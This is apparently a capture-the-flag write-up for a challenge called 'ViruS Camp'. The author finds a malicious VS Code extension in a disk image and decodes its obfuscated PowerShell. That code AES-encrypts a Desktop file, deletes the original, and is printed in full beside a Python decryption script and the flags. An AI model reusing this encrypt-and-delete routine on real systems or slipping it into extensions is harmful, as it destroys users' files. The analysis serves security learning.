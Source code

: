 # ViruS Camp

Points: 

> 

`Author: `

---

The light theme stuff in the description made me thing of the `.config` files so I mounted the image
and looked for hidden directories. I saw `.vscode` and went in. I knew I found something because
the name of the extension was `undefined_publisher.activate-0.0.1/`

exploring it a little more showed me a file with a base64 comment at the bottom which had the flag.

```sh
❯ echo "VGhlIDFzdCBmbGFnIGlzOiBCSVRTQ1RGe0gwd19jNG5fdlNfYzBkM19sM3RfeTB1X3B1Ymwxc2hfbTRsMWNpb3VzX2V4NzNuc2kwbnNfU09fZWFzaWx5Pz9fNWE3YjMzNmN9" | base64 -d
The 1st flag is: BITSCTF{H0w_c4n_vS_c0d3_l3t_y0u_publ1sh_m4l1cious_ex73nsi0ns_SO_easily??_5a7b336c}⏎
```

After this I went into a little bit of a rabbit hole of the structure of a VSCode extension. 
I should instead have just read that file in a little more detail though. So basically the extension offers just one command
"Run Shell", that is running some malicious powershell code when called which encrypts a `flag.png` in your `~/Desktop` with AES. The malicious powershell was very weakly obfuscated by just
`base64` -> `reverse the string` so that was easy. Finally we just had to decrypt the `flag.enc` to get the image which contained the flag.

```powershell
$password = "MyS3cr3tP4ssw0rd"
$salt = [Byte[]](0x01,0x02,0x03,0x04,0x05,0x06,0x07,0x08)
$iterations = 10000
$keySize = 32   
$ivSize = 16 

$deriveBytes = New-Object System.Security.Cryptography.Rfc2898DeriveBytes($password, $salt, $iterations)
$key = $deriveBytes.GetBytes($keySize)
$iv = $deriveBytes.GetBytes($ivSize)

$inputFile = "C:\\Users\\vboxuser\\Desktop\\flag.png"
$outputFile = "C:\\Users\\vboxuser\\Desktop\\flag.enc"

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv
$aes.Mode = [System.Security.Cryptography.CipherMode]::CBC
$aes.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7

$encryptor = $aes.CreateEncryptor()

$plainBytes = [System.IO.File]::ReadAllBytes($inputFile)

$outStream = New-Object System.IO.FileStream($outputFile, [System.IO.FileMode]::Create)
$cryptoStream = New-Object System.Security.Cryptography.CryptoStream($outStream, $encryptor, [System.Security.Cryptography.CryptoStreamMode]::Write)

$cryptoStream.Write($plainBytes, 0, $plainBytes.Length)
$cryptoStream.FlushFinalBlock()

$cryptoStream.Close()
$outStream.Close()

Remove-Item $inputFile -Force
```

`solve.py`
```py
from Crypto.Cipher import AES
from Crypto.Protocol.KDF import PBKDF2

password = "MyS3cr3tP4ssw0rd"  
salt = bytes([0x01, 0x02, 0x03, 0x04, 0x05, 0x06, 0x07, 0x08])  
iterations = 10000
key_size = 32  
iv_size = 16  

key_iv = PBKDF2(password, salt, dkLen=key_size + iv_size, count=iterations)
key = key_iv[:key_size]
iv = key_iv[key_size:]

input_file = "flag.enc"
output_file = "flag.png"

with open(input_file, "rb") as f:
    encrypted_data = f.read()

cipher = AES.new(key, AES.MODE_CBC, iv)
decrypted_data = cipher.decrypt(encrypted_data)

pad_length = decrypted_data[-1]
decrypted_data = decrypted_data[:-pad_length]

with open(output_file, "wb") as f:
    f.write(decrypted_data)

print(f"Decryption complete! Saved as {output_file}")
```

---

BITSCTF{h0pe_y0u_enj0yed_th1s_145e3f1a}
